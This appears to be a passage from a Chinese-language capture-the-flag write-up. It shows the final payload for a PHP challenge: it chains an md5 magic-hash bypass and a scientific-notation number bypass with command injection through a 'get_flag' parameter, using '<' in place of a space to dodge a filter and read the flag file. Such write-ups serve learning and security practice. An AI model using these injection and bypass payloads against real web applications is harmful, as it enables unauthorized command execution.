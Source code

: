 ![upload successful](./images/pasted-310.png)
成功，看第三个，传参<code>&get_flag=ls</code>，看一下目录

![upload successful](./images/pasted-311.png)
发现一些绕过，看之前的笔记，构造最终payload:<code>/?num=1e4&md5=0e215962017&get_flag=more＜fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag</code>（此处＜为<），拿到flag。
